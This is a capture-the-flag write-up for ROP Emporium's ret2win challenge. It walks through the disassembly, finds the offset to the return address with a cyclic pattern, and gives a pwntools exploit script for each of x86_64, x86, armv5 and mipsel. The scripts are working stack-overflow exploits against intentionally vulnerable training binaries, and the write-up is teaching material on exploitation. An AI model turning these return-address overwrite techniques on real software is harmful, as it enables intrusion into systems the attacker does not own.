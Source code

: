 ie this writeup I will resolve the challenge ret2win from ROP EMPORIUM. I will resolve this challenge for all
the architectures that ROP EMPORIUM provides (x86_64, x86, armv5, mipsel). In order to *win* this challenge I need to 
**overwrite the return address** of the **pwnme** function in order to redirect the flow of the program and forcing it to 
run the **ret2win** function.

# x86_64 (64 bit) architecture

First what this program does when run ?
```bash 
eurus@warfare:~/Documents/ret2win_all/ret2win$ ./ret2win 
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> _
```
So with an educated guess we can think that giving to this program a well crafted input we can overwrite the rip stored into the stack 
and redirect the execution of the program.

We can see that the program has some intresting function by seeing the symbols of the binary.

```bash
eurus@warfare:~/Documents/ret2win_all/ret2win$ rabin2 -s ret2win 
[Symbols]

nth paddr      vaddr      bind   type   size lib name
―――――――――――――――――――――――――――――――――――――――――――――――――――――
35  0x000006e8 0x004006e8 LOCAL  FUNC   110      pwnme
36  0x00000756 0x00400756 LOCAL  FUNC   27       ret2win
65  0x00000697 0x00400697 GLOBAL FUNC   81       main
```

obviously the ret2win function is never called. 

First of all we need to see what is the offset of the stored rip respect to the user input.
I will not explain in detail where the vulnerability is, because this challenges were created specifically so as not to have to 
search for the bug or do reverse engineering.


```asm
            ; CALL XREF from main @ 0x4006d2
┌ 110: sym.pwnme ();
│   ; var void *buf @ rbp-0x20
│   0x004006e8      55             push rbp
│   0x004006e9      4889e5         mov rbp, rsp
│   0x004006ec      4883ec20       sub rsp, 0x20
│   0x004006f0      488d45e0       lea rax, [buf]
│   0x004006f4      ba20000000     mov edx, 0x20               ; 32 ; size_t n
│   0x004006f9      be00000000     mov esi, 0                  ; int c
│   0x004006fe      4889c7         mov rdi, rax                ; void *s
│   0x00400701      e87afeffff     call sym.imp.memset         ; void *memset(void *s, int c, size_t n)
│   0x00400706      bf38084000     mov edi, str.For_my_first_trick__I_will_attempt_to_fit_56_bytes_of_user_input_into_32_bytes_of_stack_buffer_ 
│   0x0040070b      e840feffff     call sym.imp.puts           ; int puts(const char *s)
│   0x00400710      bf98084000     mov edi, str.What_could_possibly_go_wrong_ 
│   0x00400715      e836feffff     call sym.imp.puts           ; int puts(const char *s)
│   0x0040071a      bfb8084000     mov edi, str.You_there__may_I_have_your_input_please__And_dont_worry_about_null_bytes__were_using_read____n 
│   0x0040071f      e82cfeffff     call sym.imp.puts           ; int puts(const char *s)
│   0x00400724      bf18094000     mov edi, 0x400918           ; const char *format
│   0x00400729      b800000000     mov eax, 0
│   0x0040072e      e83dfeffff     call sym.imp.printf         ; int printf(const char *format)
│   0x00400733      488d45e0       lea rax, [buf]
│   0x00400737      ba38000000     mov edx, 0x38               ; '8' ; 56 ; size_t nbyte
│   0x0040073c      4889c6         mov rsi, rax                ; void *buf
│   0x0040073f      bf00000000     mov edi, 0                  ; int fildes
│   0x00400744      e847feffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
│   0x00400749      bf1b094000     mov edi, str.Thank_you_     ; 0x40091b ; "Thank you!" ; const char *s
│   0x0040074e      e8fdfdffff     call sym.imp.puts           ; int puts(const char *s)
│   0x00400753      90             nop
│   0x00400754      c9             leave
└   0x00400755      c3             ret
```

we can see that we have a buffer of 32 bytes, as the program alredy tell us, and a read of 56 bytes at 0x00400744.

I wrote a little script that calculate for us how many bytes we need to write in order to reach the rip stored into the stack.

```python
from pwn import *
context.binary = elf = ELF('./ret2win')

p = elf.process()

g = cyclic_gen()

p.recvuntil('> ')
p.sendline(g.get(100))

p.shutdown()
p.wait()

c = Core('./core')

offset = g.find(p64(c.fault_addr))

log.info("OFFSET FIND > "+str(offset))

# This is the result:
# [*] OFFSET FIND > (40, 0, 40)
```

basically the cyclic_gen() with the get(100) method create a *de bruijn sequence* and quering the cyclig_gen() object stored in g with 
the method find(p64('c.fault_addr')) this object can calculate at what offset is the pattern stored in c.falut__addr **that contain the value 
of the rip where the program crashed**. And this value is our offset.

Here is a little representation of the stack:

```

           buffer                      ebp   ret     
<------   [                          ][    ][    ]
          de-bruijn-sequence-aaaaaaabaaacaaadaaaea....	   

top of                                           bottom of
stack                                                stack

```

So now that we have the offset we can craft our payload in order to win this challenge!


```python
from pwn import *
context.binary = elf = ELF('./ret2win')

p = elf.process()
gdb.attach(p)

offset = 40

payload = b'A'*offset + p64(elf.sym['ret2win'])

p.recv()
p.sendline(payload)
log.info(p.recvall())
```

This is the script that print for us the flag for the x86_64 version. The payload is only a padding of size 40 bytes (the offset calculated
before) and then the address of the ret2win function. 

**doing that when the pwnme function return instead returning to main it jump to the ret2win function**

this because we can see the **ret** function as: **pop eip** and so when return it pop into the register eip the value of the ret2win function
and so the program continue with the execution of the ret2win function.

# x86 (32 bit) architecture

In this case the offset is 44 bytes, and the payload is the same but with the different offset. The little script abow for calucating 
the offset work well also in this situation.

This is the script in order to print the flag.

```python
from pwn import *
offset = 44
context.binary = elf = ELF('./ret2win32')

p = elf.process()

payload = b'A'*offset + p32(elf.sym['ret2win'])

p.recv()
p.sendline(payload)
log.info(p.recvall())
```



# armv5 (32 bit) architecture
in this case we have an offset of 36 bytes. Same script but with a different offset:


```python
from pwn import *
context.binary = elf = ELF('./ret2win_armv5')

offset = 36
payload = b'V'*offset + p32(elf.sym['ret2win'])

p = elf.process()

p.recv()
p.sendline(payload)
log.info(p.recvall())
```



# mipsel (32 bit) architecture
Same 36 bytes offset same payload

```
from pwn import *
context.binary = elf = ELF('./ret2win_mipsel')

p = elf.process()

offset = 4*9
payload = b'f'*offset+p32(elf.sym['ret2win'])

p.recv()
p.sendline(payload)
p.interactive()
```

# Conclusion

In this challenge, being the first and the simplest, the differences between the different architectures were not seen.
But in the next challenges these diffeences will emerge!


